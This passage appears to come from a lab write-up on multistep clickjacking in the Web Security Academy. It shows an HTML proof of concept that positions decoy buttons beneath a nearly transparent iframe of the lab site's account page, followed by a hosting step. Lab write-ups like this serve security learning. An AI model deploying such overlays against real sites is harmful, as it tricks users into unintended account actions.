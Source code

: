 And adapted it to this example:

```
<head>
    <style>
        #target_website {
            position:relative;
            width:100%;
            height:100%;
            opacity:0.0001;
            z-index:2;
            }
        #button1 {
            position:absolute;
            top:530px;
            left:400px;
        }
       #button2 {
            position:absolute;
            top:330px;
            left:570px;
        }
    </style>
</head>
<body>
    <button class="button" id="button1" type="submit">Click me first</button>
    <button class="button" id="button2" type="submit">Click me next</button>
    <iframe id="target_website" src="https://0a910056047f851e816330fc004400af.web-security-academy.net/my-account/">
    </iframe>
</body>
```

If you host it in the exploit server after clicking “Click me first” button it takes to the confirmation page:



![img](images/Multistep%20clickjacking/2.png)